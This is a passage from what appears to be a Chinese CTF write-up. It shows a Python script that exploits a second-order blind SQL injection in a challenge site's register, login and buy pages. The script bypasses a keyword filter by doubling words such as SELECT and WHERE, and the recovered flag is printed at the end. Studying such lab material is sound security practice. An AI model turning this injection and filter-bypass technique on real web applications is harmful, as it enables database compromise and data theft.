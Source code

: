 ```

def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 1
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str


def get_data(payload):
	
	payload1 = random_str(4)+payload
	payload2 = payload1.replace("SELECT", "SELSELECTECT").replace("WHERE","WHEWHERERE").replace("on", "oonn")
	register(payload2)

	login(payload1)
	buy()

	return check()


def register(user):
	r_url = url+"register.php"
	data = {"user": user, "pass": "user"}
	r = s.post(r_url,data=data)

def login(user):
	l_url = url+"login.php"
	data = {"user": user, "pass": "user"}
	r = s.post(l_url,data=data)

def buy():
	b_url = url+"buy.php?id=1"
	r = s.get(b_url)
	return r.text

def check():
	c_url = url+"user.php"
	r = s.get(c_url)
	#停1s,压力有点儿大
	# time.sleep(1)
	if "1997667" in r.text:
		return True
	else:
		return False

get_flag(url)

服务器特别卡，所以有误差，多打了几次拼起来
	
# flagEbbb6b6ui1d_5q1_iz_3z}
# flag{bbb6b6ui1d_5q1_iz_3z}
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png